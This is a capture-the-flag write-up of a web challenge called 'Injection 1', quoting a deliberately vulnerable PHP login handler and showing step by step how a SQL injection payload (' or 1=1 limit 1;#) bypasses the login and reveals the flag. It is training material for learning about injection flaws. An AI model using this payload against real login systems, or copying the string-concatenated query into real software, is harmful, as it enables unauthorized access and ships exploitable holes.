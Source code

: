 ### Solved by et0x

Injection 1 is a 90 point web exploitation challenge. 

> Daedalus Corp. has been working on their login service, using a brand new SQL database to store all of the access credentials. Can you figure out how to login? 

Upon visiting the provided link, you are greeted with a simple login form and the source code for the php handler for logins.

```php
<?php
include "config.php";
$con = mysqli_connect("localhost", "sql1", "sql1", "sql1");
$username = $_POST["username"];
$password = $_POST["password"];
$debug = $_POST["debug"];
$query = "SELECT * FROM users WHERE username='$username' AND password='$password'";
$result = mysqli_query($con, $query);

if (intval($debug)) {
  echo "<pre>";
  echo "username: ", htmlspecialchars($username), "\n";
  echo "password: ", htmlspecialchars($password), "\n";
  echo "SQL query: ", htmlspecialchars($query), "\n";
  if (mysqli_errno($con) !== 0) {
    echo "SQL error: ", htmlspecialchars(mysqli_error($con)), "\n";
  }
  echo "</pre>";
}

if (mysqli_num_rows($result) !== 1) {
  echo "<h1>Login failed.</h1>";
} else {
  echo "<h1>Logged in!</h1>";
  echo "<p>Your flag is: $FLAG</p>";
}

?> 
```
As you can see, there is no input validation for the username and password fields, all that the script checks for is that there is only one result in the SQL query.  Lets replicate the queries on a local SQL database so we can see what is happening.

The structure for the table is very basic:

```
mysql> select * from users_tbl;
+---------+----------+-----------+
| user_id | username | password  |
+---------+----------+-----------+
|       1 | admin    | adminpass |
|       2 | user     | userpass  |
+---------+----------+-----------+
2 rows in set (0.00 sec)
```

Now to try to get a positive result from our query.

```
mysql> SELECT * FROM users_tbl WHERE username='admin' AND password='asdf' or 1=1;#;
+---------+----------+-----------+
| user_id | username | password  |
+---------+----------+-----------+
|       1 | admin    | adminpass |
|       2 | user     | userpass  |
+---------+----------+-----------+
2 rows in set (0.00 sec)
```

Okay, now we have results, but as we discussed before, the script makes sure that only one result was found, so we should be able to add a limit 1 statement to limit our results.

```
mysql> SELECT * FROM users_tbl WHERE username='admin' AND password='asdf' or 1=1 limit 1;#;
+---------+----------+-----------+
| user_id | username | password  |
+---------+----------+-----------+
|       1 | admin    | adminpass |
+---------+----------+-----------+
1 row in set (0.00 sec)
```

Great!  Now all we have to do is enter the following in the login form:

>Username: admin

>Password: ' or 1=1 limit 1;#

Sure enough, the login works.  The flag is **flag_vFtTcLf7w2st5FM74b**
